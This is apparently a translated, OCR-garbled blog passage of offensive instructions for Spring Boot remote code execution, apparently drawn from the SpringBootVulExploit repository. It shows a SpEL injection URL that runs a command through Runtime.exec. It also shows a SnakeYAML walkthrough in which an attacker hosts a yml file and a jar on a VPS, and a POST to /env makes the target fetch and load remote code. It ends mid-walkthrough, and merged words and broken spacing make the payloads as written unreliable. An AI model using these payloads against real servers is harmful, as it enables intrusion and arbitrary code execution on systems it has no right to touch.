 **Vulnerable environment:**

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)

Normal access:

```
http://127.0.0.1:9091/article?id=66 _
```

Execute the open -a Calculatorcommand :

```
http: //127.0.0.1:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x6f,0x70,0x65,0x6e,0x20 ,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}
```

### Spring Cloud SnakeYAML RCE

**[](https://www.blogger.com/#)Conditions of use:**

- You can POST requests to the /envinterface set properties

- You can POST request the /refreshinterface refresh the configuration ( spring-boot-starter-actuatordependency exists)

- spring-cloud-starter version of target dependency < 1.3.0.RELEASE

- The target can request the attacker's HTTP server (the request can go out of the Internet)

[](https://www.blogger.com/#)**How to use:**

[](https://www.blogger.com/#)**Step 1:** Host yml and jar files

Open a simple HTTP server on the VPS machine you control, and try to use common HTTP service ports (80, 443)

```
# Use python to quickly start the http serverpython2 -m SimpleHTTPServer 80python3 -m http.server 80
```

Place yml an example.ymlfollowing contents:

```
!! javax.script.ScriptEngineManager [    !! java.net.URLClassLoader [[       !! java.net.URL [ " http : //your-vps-ip/example.jar " ] _ _ _ _ _ _    ]]]
```

Place jara . The content is the code to be executed. Please refer to [yaml-payload](https://github.com/artsploit/yaml-payload)example.jar for how to write and compile the code.

[](https://www.blogger.com/#)\
[](https://www.blogger.com/#)**Step 2:** Set the spring.cloud.bootstrap.location property

**spring 1.x**

```
POST /envContent - Type : application/x- www- form - urlencodedspring.cloud.bootstrap.location =http : //your-vps-ip/example.yml
```
